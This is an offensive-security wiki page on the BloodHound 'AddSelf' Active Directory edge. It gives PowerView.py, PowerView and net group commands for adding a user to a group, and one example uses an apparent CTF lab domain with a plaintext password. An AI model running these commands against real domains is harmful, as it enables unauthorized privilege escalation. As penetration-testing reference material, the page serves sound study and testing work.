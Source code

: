 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# AddSelf

## Information

The principal has the ability to add itself to the target group.

## Exploitation

### Add User to Group

This can be done natively ([opsec considerations](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#id17)) or with [PowerView](../../../../tools/tools/active-directory/powerview.md).

{% tabs %}
{% tab title="PowerView.py" %}
```bash
# connect to the DC
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
# add user to the group
PV > Add-DomainGroupMember -Identity servicemgmt -Members oorend
# confirm group membership
PV > Get-DomainGroupMember -Identity servicemgmt
```
{% endtab %}

{% tab title="PowerView" %}
```powershell
# add user to the group
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
# confirm group membership
Get-DomainGroupMember -Identity '<GROUP>'
```
{% endtab %}

{% tab title="net" %}
```powershell
# add user to the group
net group '<GROUP>' '<USER>' /add /domain
# confirm group membership
net group <GROUP> /domain
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#addself" %}
{% endtab %}
{% endtabs %}
